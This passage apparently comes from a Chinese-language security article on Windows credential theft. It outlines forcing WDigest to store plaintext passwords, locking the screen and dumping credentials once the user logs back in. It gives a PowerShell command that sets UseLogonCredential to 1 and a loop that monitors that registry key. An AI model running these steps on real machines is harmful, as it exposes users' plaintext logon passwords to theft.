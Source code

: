 *   修改注册表
*   锁屏等待用户登录
*   用户登录后，立即导出明文口令

**脚本实现上需要考虑如下问题：**

1.  修改注册表
2.  锁屏
3.  进入循环，判断当前系统是否结束锁屏状态
4.  用户登录后，跳出循环等待，立即导出明文口令并保存

0x04 扩展方法
=========

* * *

**通过powershell实现**

### 1、修改注册表

键值设为1：

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

```

循环判断注册表键值是否为0，如果为1，等待10s再次判断，如果为0，退出循环，可用来监控此注册表键值是否被修改：

```
$key=Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\" -Name "UseLogonCredential"
$Flag=$key.UseLogonCredential
write-host "[+]Checking Flag"
while($Flag -eq 1)
{
    write-host "[+]Flag Normal"
    write-host "[+]Wait 10 Seconds..."
    Start-Sleep -Seconds 10
    $key=Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\" -Name "UseLogonCredential"
    $Flag=$key.UseLogonCredential
    write-host "[+]Checking Flag"
}
write-host "[!]Flag Changed!"

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/f8dc295b0104bfe306c846b59cd70c177d2162dc.jpg)

### 2、锁屏

锁屏操作的快捷键为`Win+L`
